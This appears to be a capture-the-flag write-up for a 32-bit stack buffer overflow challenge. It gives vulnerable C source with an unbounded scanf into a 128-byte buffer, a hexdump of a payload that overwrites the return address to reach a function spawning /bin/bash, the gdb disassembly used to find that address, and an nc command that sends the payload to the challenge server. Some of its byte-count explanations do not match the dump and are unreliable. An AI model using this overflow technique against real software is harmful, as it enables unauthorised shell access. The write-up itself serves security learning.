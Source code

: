 # Stacked

**Points**: 75

`nc pwn.osucyber.club 13379`

## Solution
```c
int not_called() {
	return system("/bin/bash");
}

void get_name() {
	char buf[128];
	scanf("%s", buf);
	printf("Hi, %s\n", buf);
}

int main(int argc, char** argv) {
	setvbuf(stdout, 0, 2, 0);
	printf("Hi, please enter your name:\n");
	get_name();
	printf("Goodbye\n");
}
```

This is a [stack smashing](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
problem. I created a `access.txt` containing an input that would overflow `buf`
and set the return address on the stack.

```sh
$ xxd access.txt
00000000: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000010: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000020: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000030: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000040: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000050: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000060: 1122 3344 5566 7788 1122 3344 5566 7788  ."3DUfw.."3DUfw.
00000070: 1122 3344 5566 7788 1122 aabb ccdd eeff  ."3DUfw.."......
00000080: 1122 3344 5566 7788 0000 0000 3685 0408  ."3DUfw.....6...
```

- The bytes from 0x0 to 0x80 (exclusive) fill `buf` with 32 characters.
- The bytes from 0x80 to 0x88 (exclusive) overwrite the saved frame pointer,
  which we don't care about.
- The last 8 bytes overwrite the return address, we set to `0x08048536`. With
  little-endian ordering, the bytes need to be reversed.

We set the return address to `0x08048536` because that's the address of the
function `not_called()`. This address can be found using `gdb`

```sh
$ gdb pwn
Reading symbols from pwn...(no debugging symbols found)...done.
(gdb) disassemble not_called
Dump of assembler code for function not_called:
   0x08048536 <+0>: push   %ebp
   0x08048537 <+1>: mov    %esp,%ebp
   0x08048539 <+3>: push   %ebx
   0x0804853a <+4>: sub    $0x4,%esp
   0x0804853d <+7>: call   0x8048616 <__x86.get_pc_thunk.ax>
   0x08048542 <+12>:    add    $0x1abe,%eax
   0x08048547 <+17>:    sub    $0xc,%esp
   0x0804854a <+20>:    lea    -0x1960(%eax),%edx
   0x08048550 <+26>:    push   %edx
   0x08048551 <+27>:    mov    %eax,%ebx
   0x08048553 <+29>:    call   0x80483d0 <system@plt>
   0x08048558 <+34>:    add    $0x10,%esp
   0x0804855b <+37>:    mov    -0x4(%ebp),%ebx
   0x0804855e <+40>:    leave
   0x0804855f <+41>:    ret
End of assembler dump.
(gdb)
```

To submit the input, I ran this

```sh
cat access.txt - | nc pwn.osucyber.club 13379
```
